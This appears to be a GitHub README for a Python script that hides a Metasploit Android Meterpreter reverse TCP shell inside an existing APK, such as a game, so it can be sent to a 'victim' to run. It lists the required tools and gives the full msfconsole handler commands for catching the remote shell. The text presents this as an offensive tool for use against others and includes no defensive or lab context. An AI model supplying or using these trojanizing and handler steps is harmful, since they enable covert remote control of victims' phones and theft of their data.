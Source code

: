 ## Android apk and payload combiner
# A small python script that uses msfvenom to hide a tcp reverse shell to an android device inside an APK file

Hide an msfconsole reverse tcp shell payload in an existing apk application, made by Stephanos Bekiaris    ver: July 2020
        
    
# Requirements:
  1. msfvenom: for generating the payload
  2. msfconsole (Metasploit): for starting the meterpreter session
  3. An apk file to place the payload in, e.g. an android game (search for Flappy Bird android apk)
  4. Make sure you have zipalign installed (apt install zipalign)

Once the payload is generated, send it to the victim android to run it.
Make sure you have initialized an msfconsole session using the following commands:

	                  msfconsole
                      use exploit/multi/handler
	                  set payload android/meterpreter/reverse_tcp
	                  set LHOST {same ip as the one used for the script}
	                  set LPORT {same port as the one used for the script}
	                  exploit
